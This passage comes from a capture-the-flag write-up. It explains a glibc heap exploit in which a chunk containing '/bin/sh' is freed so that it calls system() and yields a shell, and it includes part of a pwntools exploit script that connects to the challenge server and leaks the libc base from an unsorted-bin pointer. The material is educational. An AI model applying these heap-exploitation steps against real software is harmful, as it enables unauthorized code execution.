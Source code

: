 Hereforth, we simply need to perform another `malloc()` and write in `/bin/sh\x00` in the user data region. When we free up this chunk, it would call `system()` with the arguments `/bin/sh\x00` passed in and that would get us shell! 

```py {filename=exploit.py linenos=table}
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = ELF("./libc.so.6", checksec = False)
ld = ELF("./ld-2.27.so", checksec = False)

context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]

host, port = 'chal.amt.rs', 1338

def initialize(argv=[]):
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

r = initialize()
# =========================================================
#                         EXPLOITS
# =========================================================

def alloc(index, size):
    r.sendline(b'1')
    r.sendlineafter(b"Where? ", str(index).encode())
    r.sendlineafter(b"size? ", str(size).encode())

def free(index):
    r.sendline(b'2')
    r.sendlineafter(b"Where? ", str(index).encode())

def view(index):
    r.sendline(b'3')
    r.sendlineafter(b"Where? ", str(index).encode())
    return r.recvline()[:-1]

def edit(index, size, data):
    r.sendline(b'4')
    r.sendlineafter(b"Where? ", str(index).encode())
    r.sendlineafter(b"size? ", str(size).encode())
    r.sendline(data)

alloc(0, 1280)
alloc(1, 32)

## chunk gets stored in the unsorted bin 
free(0) 

## read the fd pointer 
main_arena = u64(view(0).ljust(8, b'\x00')) 
libc_base = main_arena - 0x3afca0
libc.address = libc_base

info(f"Libc Address => {libc.address}")
```